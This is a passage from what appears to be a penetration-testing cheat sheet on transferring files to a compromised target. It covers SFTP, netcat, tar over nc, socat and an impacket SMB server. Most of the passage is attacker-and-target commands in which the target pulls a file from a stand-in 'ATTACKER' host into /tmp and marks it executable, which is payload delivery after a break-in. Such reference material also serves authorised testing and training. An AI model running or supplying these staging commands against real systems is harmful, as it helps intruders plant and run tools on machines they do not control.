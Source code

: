 Non-interactive SFTP:
```bash
sftp -P 22 USER@TARGET <<'EOF'
put FILE /tmp/FILE
ls -l /tmp/FILE
EOF
```

### C) Netcat (nc) — simple raw transfer
If only outbound from target is allowed, make the target connect to your listener.

Attacker (serve file):
```bash
# OpenBSD nc: close after EOF (-q 0)
nc -q 0 -lvnp 4444 < FILE
```

Target (connect and save):
```bash
nc -nv ATTACKER 4444 > /tmp/FILE
chmod +x /tmp/FILE
```

Transfer a directory via tar over nc:
```bash
# Attacker
tar czf - mydir | nc -q 0 -lvnp 4444

# Target
cd /tmp
nc -nv ATTACKER 4444 | tar xzf -
```

socat alternative (more robust):
```bash
# Attacker
socat -u FILE:FILE TCP-LISTEN:4444,reuseaddr

# Target
socat -u TCP:ATTACKER:4444 OPEN:/tmp/FILE,creat,write
chmod +x /tmp/FILE
```

### D) SMB share (fast for many files; anonymous possible)
Attacker (host SMB share from current dir):
```bash
# Requires impacket
impacket-smbserver -smb2support share $(pwd)
```

Target (download with smbclient):
```bash
# Anonymous (-N); if creds needed use -U 'user%pass'
smbclient //ATTACKER/share -N -c "get FILE /tmp/FILE"
chmod +x /tmp/FILE
```
